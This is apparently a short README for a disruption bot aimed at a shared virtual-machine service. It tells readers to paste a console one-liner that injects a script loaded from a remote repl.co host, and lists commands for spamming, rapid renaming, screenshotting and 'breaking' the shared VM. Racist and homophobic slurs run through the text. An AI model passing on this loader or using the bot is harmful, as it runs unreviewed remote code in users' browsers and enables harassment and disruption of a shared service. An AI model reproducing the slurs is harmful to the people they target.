 To use NiggaBot enter this script in console: x=document.createElement("script");x.src="https://bobuxmangenerator.showdipoamigos.repl.co"; document.head.appendChild(x);
Commands for the bot:
!fuckvm - fuck vm if u kit fag
!niggapspam - turn spam and spam shit
!sexspam - basic spam
!sexname - change ur name at speed of light
!sexmessage - random message
!breaksexboard - breaking keyboard on vm
!niggashot - screenshot vm
!niggassage - custom message by u
